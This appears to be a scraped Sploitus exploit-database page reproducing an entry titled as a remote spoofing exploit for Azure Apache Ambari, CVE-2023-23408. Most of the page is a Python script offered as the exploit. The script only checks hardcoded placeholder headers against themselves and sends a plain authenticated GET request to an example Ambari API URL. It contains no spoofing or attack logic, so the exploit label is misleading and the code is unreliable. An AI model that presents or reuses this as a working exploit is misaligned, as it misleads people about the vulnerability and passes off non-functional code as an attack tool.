 ```yaml
---
title: Azure Apache Ambari 2302250400 - Spoofing exploit
url: https://sploitus.com/exploit?id=EDB-ID:51546&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-27
fetch_date: 2025-10-04T11:45:06.187533
---
```


# Azure Apache Ambari 2302250400 - Spoofing exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Azure Apache Ambari 2302250400 - Spoofing CVE-2023-23408

2023-06-26 | CVSS 4.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51546
# Exploit Title: Azure Apache Ambari 2302250400 - Spoofing
# Date: 2023-06-23
# country: Iran
# Exploit Author: Amirhossein Bahramizadeh
# Category : Remote
# Vendor Homepage:
Microsoft
Apache Ambari
Microsoft azure Hdinsights
# Tested on: Windows/Linux
# CVE : CVE-2023-23408

import requests

# Set the URL and headers for the Ambari web interface
url = "https://ambari.example.com/api/v1/clusters/cluster_name/services"
headers = {"X-Requested-By": "ambari", "Authorization": "Basic abcdefghijklmnop"}

# Define a function to validate the headers
def validate_headers(headers):
    if "X-Requested-By" not in headers or headers["X-Requested-By"] != "ambari":
        return False
    if "Authorization" not in headers or headers["Authorization"] != "Basic abcdefghijklmnop":
        return False
    return True

# Define a function to send a request to the Ambari web interface
def send_request(url, headers):
    if not validate_headers(headers):
        print("Invalid headers")
        return
    response = requests.get(url, headers=headers)
    if response.status_code == 200:
        print("Request successful")
    else:
        print("Request failed")

# Call the send_request function with the URL and headers
send_request(url, headers)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)